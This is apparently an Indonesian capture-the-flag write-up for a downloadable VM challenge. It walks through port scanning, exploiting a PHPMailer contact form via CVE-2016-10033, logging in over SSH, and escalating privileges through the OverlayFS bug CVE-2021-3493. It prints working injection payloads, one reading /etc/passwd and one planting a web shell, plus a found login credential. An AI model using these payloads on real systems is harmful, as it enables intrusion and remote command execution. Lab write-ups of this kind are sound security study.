




## Overlayfs

### Deskripsi

Hack This Machine! [Download](https://mega.nz/file/uzwWwLrB#dAuDtw-VovuxnDj6r09r0zEQPGMPYsRQ71t-tZ2dXqk)

### Solusi

> Challange nya tentang VM, untuk bisa mendapatkan flag tentu saja harus menjalankan VM nya, menjalankan VM nya saja membutuhkan pengetahuan, Jadi asumsi saya **mount image** untuk mendapatkan flag bukanlah solusi.


Setelah di import ke Hyper-V setting network ke bridge dan tentukan IP menjadi `192.168.1.8`, kemudian dilakukan port scaning dan ditemukan port yang terbuka

```
$ nmap 192.168.1.8
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-07 13:08 WIB
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.79s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

terbukan port `80` dan `22`, pada port `80` berjalan service http, jika dibuka pada `http://192.168.1.8` hanya menampilkan halman default apache, kemudian dilakukan dirbuster dan ditemukan 1 file dengan nama `index.php` dan hanya menampilkan halaman kontak biasa



jika dilihat-lihat form ini bertujuan untuk mengirimkan email, setelah googling ditemukan beberapa resource yang mengarah kepada **PHPMailer < 5.2.18 Remote Code Execution** dengan membaca sumber [https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) didapatkan payload 

```
name = "contoh\" -oQ/tmp/ -X/var/www/html/tes.php  some"@email.com
body = <?php echo '<pre>', print_r(system('cat /etc/passwd')), '</pre>'; ?>
```

dengan hasil



dengan mengganti payload menjadi mini shell, bisa melakukan explorasi sistem

```
name = "contoh\" -oQ/tmp/ -X/var/www/html/tes2.php  some"@email.com
body = <?php echo '<pre>', print_r(system($_GET['x'])), '</pre>'; ?>
```



setelah mencari2 terdapat sebuah file dengan nama `readme.md` pada folder `/var/www/` dengan isi

```
Please login using this credential, and please keep silent
miyabi:QNSGd4!bNL9mH
```

setelah login dengan ssh, tetap tidak bisa melakukan banyak hal karena privilege yang terbatas, tujuan akhirnya adalah bagaimana mendapatkan root access, disini informasi yang didapat yaitu kernel yang digunakan adalah 

```
Linux localhost 5.0.0-13-generic #14-Ubuntu SMP Mon Apr 15 14:59:14 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

diamana terkena bug **Ubuntu OverlayFS Local Privesc (CVE-2021-3493)** menurut [https://ubuntu.com/security/CVE-2021-3493](https://ubuntu.com/security/CVE-2021-3493), jadi tinggal nyari exploit yang bisa digunakan, saya menggunakan [https://github.com/briskets/CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)

